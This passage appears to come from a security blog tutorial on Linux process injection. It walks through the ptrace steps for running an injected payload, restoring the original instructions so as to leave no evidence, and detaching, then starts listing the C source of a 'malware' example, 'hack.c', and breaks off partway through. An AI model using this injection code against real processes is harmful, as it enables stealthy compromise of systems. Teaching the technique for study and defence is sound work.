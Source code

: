 As you can see this function is like `read_mem`, but for write memory logic.      

At the next stage, we modify the process's instruction pointer (`RIP`) to execute the injected payload:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

After the payload has executed, we restore the original memory instructions to avoid crashing the process or leaving evidence:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Finally, detach from the target process, allowing it to resume normal operation:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

So the full source code of our code injection "malware" looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
```